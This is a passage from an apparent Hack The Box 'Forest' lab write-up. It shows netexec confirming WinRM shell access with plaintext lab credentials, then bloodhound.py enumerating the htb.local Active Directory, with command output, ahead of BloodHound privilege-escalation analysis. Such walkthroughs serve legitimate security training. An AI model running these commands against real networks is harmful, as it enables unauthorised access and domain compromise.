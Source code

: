 Using ``Netexec`` I was able to discover that the credentials can be able to use ``winrm`` to gain an interactive shell.
```bash
netexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice                                             took   4s at   12:26:29 PM
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

## Privilege Escalation
Using BlooodHound, BloodHound itself is primarily a graphical tool, but the data it uses is collected through command-line tools. Here's a breakdown of the process:

BloodHound relies on data collectors (ingestors) to gather information from Active Directory. The most common ingestor is SharpHound.
```bash
~/Tools/BloodHound.py on    master ❯ ./bloodhound.py -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.1
0.10.161
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 31S
```

The data collected by SharpHound is then imported into the BloodHound GUI for analysis. You can use various queries to identify potential privilege escalation paths, such as finding users with high privileges, identifying misconfigurations, or discovering sensitive group memberships.

Import all the ``.json`` file to Bloodhound
Go to the ``Analysis`` Tab and click ``Shortest Paths to High Value Targets``
